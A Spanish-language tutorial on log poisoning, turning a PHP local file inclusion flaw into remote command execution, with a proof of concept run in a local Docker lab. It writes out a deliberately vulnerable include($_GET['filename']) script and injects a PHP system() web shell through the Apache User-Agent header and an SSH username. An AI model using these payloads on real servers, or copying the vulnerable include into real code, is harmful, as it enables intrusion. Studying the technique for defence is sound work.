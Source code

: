 # Log Poisoning (LFI to RCE)

El **Log Poisoning** es una técnica de ataque en la que un atacante **manipula** los **archivos de registro** (**logs**) de una aplicación web para lograr un resultado malintencionado. Esta técnica puede ser utilizada en conjunto con una vulnerabilidad **LFI** para lograr una **ejecución remota de comandos** en el servidor.

Como ejemplos para esta clase, trataremos de envenenar los recursos ‘**auth.log**‘ de **SSH** y ‘**access.log**‘ de **Apache**, comenzando mediante la explotación de una vulnerabilidad LFI primeramente para acceder a estos archivos de registro. Una vez hayamos logrado acceder a estos archivos, veremos cómo manipularlos para incluir código malicioso.

En el caso de los logs de SSH, el atacante puede inyectar código PHP en el campo de **usuario** durante el proceso de autenticación. Esto permite que el código se registre en el log ‘**auth.log**‘ de SSH y sea interpretado en el momento en el que el archivo de registro sea leído. De esta manera, el atacante puede lograr una ejecución remota de comandos en el servidor.

En el caso del archivo ‘**access.log**‘ de Apache, el atacante puede inyectar código PHP en el campo **User-Agent** de una solicitud HTTP. Este código malicioso se registra en el archivo de registro ‘access.log’ de Apache y se ejecuta cuando el archivo de registro es leído. De esta manera, el atacante también puede lograr una ejecución remota de comandos en el servidor.

Cabe destacar que en algunos sistemas, el archivo ‘**auth.log**‘ no es utilizado para registrar los eventos de autenticación de SSH. En su lugar, los eventos de autenticación pueden ser registrados en archivos de registro con diferentes nombres, como ‘**btmp**‘.

Por ejemplo, en sistemas basados en Debian y Ubuntu, los eventos de autenticación de SSH se registran en el archivo ‘auth.log’. Sin embargo, en sistemas basados en Red Hat y CentOS, los eventos de autenticación de SSH se registran en el archivo ‘btmp’. Aunque a veces pueden haber excepciones.

Para prevenir el Log Poisoning, es importante que los desarrolladores limiten el acceso a los archivos de registro y aseguren que estos archivos se almacenen en un lugar seguro. Además, es importante que se valide adecuadamente la entrada del usuario y se filtre cualquier intento de entrada maliciosa antes de registrarla en los archivos de registro.

## Prueba de Concepto

* Desplegar contenedor:

```bash
❯ docker pull ubuntu:latest
❯ docker run -dit -p 80:80 -p 22:22 --name logPoisoning ubuntu
❯ docker exec -it logPoisoning bash

root@86c2363bb0de:/# apt update
root@86c2363bb0de:/# apt install apache2 ssh nano php -y
root@86c2363bb0de:/# service apache2 start 
root@86c2363bb0de:/# service ssh start
 * Starting OpenBSD Secure Shell server sshd                                                                       [ OK ]
root@86c2363bb0de:/# service ssh status
 * sshd is running
root@86c2363bb0de:/# service apache2 status
 * apache2 is running
root@86c2363bb0de:/# cd /var/www/html/
root@86c2363bb0de:/var/www/html# nano index.php
```

### Log Poisoning a través de apache

* Crear archivo.php para incluir **archivos** locales de la máquina a través del parámetro **cmd**:

```php
<?php
	include($_GET['filename']);
?>
```

* Cambiar el propietario donde reside los logs de apache2:

```bash
root@86c2363bb0de:/var/www/html# chown www-data:www-data -R /var/log/apache2
```

* Enviar una **peticion** por GET para ejecutar la función **phpinfo()** en el User-Agent y verla en el archivo de logs **/var/log/apache2/access.log** en el navegador web:

```bash
❯ curl -s -X GET "http://localhost/probando" -H "User-Agent: <?php phpinfo(); ?>"
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.52 (Ubuntu) Server at localhost Port 80</address>
</body></html>
```

* Enviar una **petición** por GET para ejecutar comandos a través del parámetro **cmd** en el User-Agent dentro del el navegador web:

```bash
❯ curl -s -X GET "http://localhost/probando" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.52 (Ubuntu) Server at localhost Port 80</address>
</body></html>
```

**➜** `view-source:http://localhost/index.php?filename=/var/log/apache2/access.log&cmd=comando`

### Log Poisoning a través de SSH

* A través de **ssh** también podemos llegar a poder ejecutar **comandos** a través del parámetro **cmd** dentro del navegador web:

```bash
❯ ssh '<?php system($_GET["cmd"]); ?>'@ip-host
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ECDSA key fingerprint is SHA256:Uf9VlBUBjpEKfiRb+gas59glyHOT5TMhhhpNtVFYTYQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ECDSA) to the list of known hosts.
<?php system($_GET["cmd"]); ?>@172.17.0.2's password: 
Permission denied, please try again.
<?php system($_GET["cmd"]); ?>@172.17.0.2's password: 
```

* En el navegador **concatenamos** el parámetro **cmd** para poder ejecutar comandos:

**➜** `view-source:http://localhost/index.php?filename=/var/log/btmp&cmd=comando`
